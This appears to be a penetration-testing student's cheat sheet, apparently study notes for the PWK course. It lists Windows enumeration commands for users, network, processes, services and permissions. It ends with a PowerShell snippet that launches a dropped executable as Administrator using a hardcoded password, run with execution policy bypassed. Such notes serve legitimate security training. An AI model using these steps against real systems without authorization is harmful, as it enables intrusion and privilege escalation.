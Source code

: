 #### What OS is the target running:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

#### Hostname
`hostname`

`echo %hostname%`

#### List users on the local machine and query specific username
`net users`

`net user bob`


#### View Network Interfaces and Routing Table
`ipconfig /all`

`route print`

`arp -A`

#### Active Network Connections and Firewall Rules

`netstat -ano`

`netsh firewall show state`

`netsh firewall show config`

#### Running Processes and Scheduled Tasks

`schtasks /query /fo LIST /v`

`tasklist /SVC`

`net start`

`DRIVERQUERY`




sc query type= service

sc qc <SERVICE NAME>
  
  
wmic useraccount where name='robert' get sid



accesschk.exe -uwdqs Users c:\



## Powershell Exploit (Page 360 in PWK)

```
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)
```

Run this:

> powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1


